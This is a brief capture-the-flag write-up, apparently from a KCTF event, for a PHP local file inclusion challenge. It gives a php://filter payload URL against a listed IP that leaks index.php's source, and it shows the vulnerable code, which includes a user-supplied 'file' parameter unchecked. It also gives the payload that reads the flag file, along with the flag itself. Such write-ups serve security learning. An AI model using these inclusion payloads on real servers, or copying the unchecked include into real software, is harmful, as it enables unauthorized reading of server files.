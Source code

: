 # My PHP Site

**lfi**: http://159.223.166.39:15000/?file=php://filter/convert.base64-encode/resource=index.php

**source-code**: `index.php`
```php
<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}
# neu khong co comment thi tim ra kieu gi, sau nay minh moi thay??/
?>
```

**payload**:http://159.223.166.39:15000/?file=s3crEt_fl49.txt

**flag**: `KCTF{L0C4L_F1L3_1ncLu710n}`
